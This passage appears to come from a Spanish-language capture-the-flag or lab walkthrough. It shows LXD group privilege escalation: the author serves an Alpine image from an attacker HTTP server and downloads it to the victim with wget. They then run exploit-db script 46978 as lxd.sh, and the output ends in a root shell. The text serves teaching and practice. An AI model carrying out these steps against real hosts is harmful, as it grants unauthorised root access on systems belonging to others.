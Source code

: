 ```bash
(18/20) Installing libc-utils (0.7.2-r3)
(19/20) Installing alpine-keys (2.4-r1)
(20/20) Installing alpine-base (3.15.4-r0)
Executing busybox-1.34.1-r5.trigger
OK: 9 MiB in 20 packages
```

```bash
ll alpine-v3.13-x86_64-20210218_0139.tar.gz 
-rw-r--r-- 1 root root 3259593 abr 11 21:47 alpine-v3.13-x86_64-20210218_0139.tar.gz
```

- Compartimos el archivo anterior mediante un servidor en python:

```bash
python -m http.server 80
```

---

- Desde la máquina víctima descargamos el archivo con el siguiente comando:

```bash
wget -c http://10.9.0.50/alpine-v3.13-x86_64-20210218_0139.tar.gz
```

![Untitled](Gaming%20Ser%2071c53/Untitled%209.png)

- El la maquina victima creamos un script, nosotros lo nombramos “lxd.sh” con el siguiente código:

[Offensive Security's Exploit Database Archive](https://www.exploit-db.com/exploits/46978)

![Untitled](Gaming%20Ser%2071c53/Untitled%2010.png)

- Otorgamos permisos de ejecución sobre el script “lxd.sh” creado en el punto anterior:

```bash
chmod u+x lxd.sh
```

- Ejecutamos el exploit con el siguiente comando:

```bash
./lxd.sh -f alpine-v3.13-x86_64-20210218_0139.tar.gz
```

```bash
ohn@exploitable:/tmp$ chmod u+x lxd.sh
john@exploitable:/tmp$ ./lxd.sh -f alpine-v3.13-x86_64-20210218_0139.tar.gz
Image imported with fingerprint: cd73881adaac667ca3529972c7b380af240a9e3b09730f8c8e4e6a23e1a7892b
[*] Listing images...

+--------+--------------+--------+-------------------------------+--------+--------+------------------------------+
| ALIAS  | FINGERPRINT  | PUBLIC |          DESCRIPTION          |  ARCH  |  SIZE  |         UPLOAD DATE          |
+--------+--------------+--------+-------------------------------+--------+--------+------------------------------+
| alpine | cd73881adaac | no     | alpine v3.13 (20210218_01:39) | x86_64 | 3.11MB | Apr 12, 2022 at 4:14am (UTC) |
+--------+--------------+--------+-------------------------------+--------+--------+------------------------------+
Creating privesc
Device giveMeRoot added to privesc
~ # whoami
root
```
